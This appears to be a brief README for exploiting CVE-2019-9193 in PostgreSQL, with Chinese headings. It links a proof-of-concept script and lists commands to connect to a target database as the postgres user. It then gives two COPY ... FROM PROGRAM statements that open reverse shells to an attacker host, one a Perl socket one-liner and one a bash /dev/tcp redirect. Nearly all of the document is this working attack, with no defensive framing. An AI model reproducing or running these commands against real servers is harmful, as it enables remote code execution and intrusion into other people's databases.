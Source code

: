 # CVE-2019-9193

## 使用POC脚本

https://github.com/X-x-X-0/CVE-2019-9193



## 使用命令行

```bash
pip3 install psycopg2-binary

pgcli -h 10.130.130.12 -p 5432 -U postgres -W -d postgres

> COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.130.130.55:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';

> COPY cmd_exec FROM PROGRAM 'bash -i >& /dev/tcp/10.130.130.55/80 0>&1';
```
